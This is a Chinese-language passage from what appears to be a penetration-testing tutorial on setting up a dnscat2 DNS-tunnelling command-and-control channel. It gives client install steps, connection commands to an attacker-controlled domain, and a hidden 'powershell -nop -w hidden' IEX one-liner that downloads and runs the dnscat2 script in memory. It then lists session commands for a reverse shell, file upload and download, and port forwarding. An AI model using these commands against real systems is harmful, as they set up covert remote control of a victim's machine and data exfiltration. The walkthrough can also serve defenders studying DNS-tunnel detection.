 ```bash

# 参数
-c    # 定义了"pre-shared secret",可使用具有预共享密钥的身份验证机制来防止中间人攻击。如果不指定，会自动生成随机字符串(记录下来，客户端需要使用)
-e    # 规定安全级别。"open" 表示服务端允许客户端不进行加密
--no-cache    # 禁止缓存(该参数务必要添加，因为power-dnscat2客户端与dnscat2服务器的Caching模式不兼容)
```


3.目标主机安装客户端
```bash
# dnscat2 客户端是C写的，所以先编译。win上可使用vs编译；Linux中直接运行`make install`
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make
# 这里使用的是直接编译好的win系统上的客户端：https://downloads.skullsecurity.org/dnscat2

# 服务端建好之后，在客户端运行测试能否与服务端通信
dnscat2-v0.07-client-win32.exe --ping vpn.360bobao.xyz
# 在客户端连接服务端
dnscat2-v0.07-client-win32.exe --dns domain=vpn.360bobao.xyz --secret pass123456
# 如果成功，会显示"Session established!" 

# 如果服务端使用的是直连模式，可以直接填写服务端ip地址(不通过DNS服务提供商)，向dnscat2服务端所在的IP弟子和请求DNS解析，命令如下
dnscat --dns server <dnscat2_server_IP>,port=53,type=TXT --secret=pass123456

# 推荐使用Powershell版本的dnscat2-powershell(目标win机器需要支持powershell2.0以上版本)：https://github.com/lukebaggett/dnscat2-powershell
#下载脚本到本地执行：
Import-Module .dnscat2.ps1
#也可在线加载脚本：
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1");
start-Dnscat2 -Domain vpn.360bobao.xyz -DNSServer  ***.***.***.***
# 也可以用以下命令，使用IEX加载脚本的方式，在内存中打开dnscat2客户端
powershell.exe -nop -w hidden -c {IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1");start-Dnscat2 -Domain vpn.360bobao.xyz -DNSServer  ***.***.***.***}

# 执行命令，创建控制台，然后就可以执行powershell命令和脚本
exec psh

```



4.反弹shell
```bash
# 交互shell， 和Metasploit类似
# 在客户端运行dnscat2.ps1脚本，在服务端就能看到客户端上线的提示



# 常用命令：
windows    # 查看当前的控制进程(每个连接都是独立的)
sessions   # 同同上
session --I 1    # 进入某个通道
window  -i 1
exec notepad.exe    # 远程打开指定程序
download    # 下载文件(慢，先把所有数据先写入缓存，最后写入硬盘) 不适合大文件
upload      # 上传文件()
clear    # 清屏
delay    # 修改远程响应延时
shell    # 得到一个反弹shell
suspend    # 返回上一层，相当于快捷键"ctrl+z"
listen    # 类似SSH隧道的—L参数(本地转发)，如：listen 0.0.0.0:53 192.168.1.1:3389
ping    # 确认主机在线，如果返回"pong"，则在线
```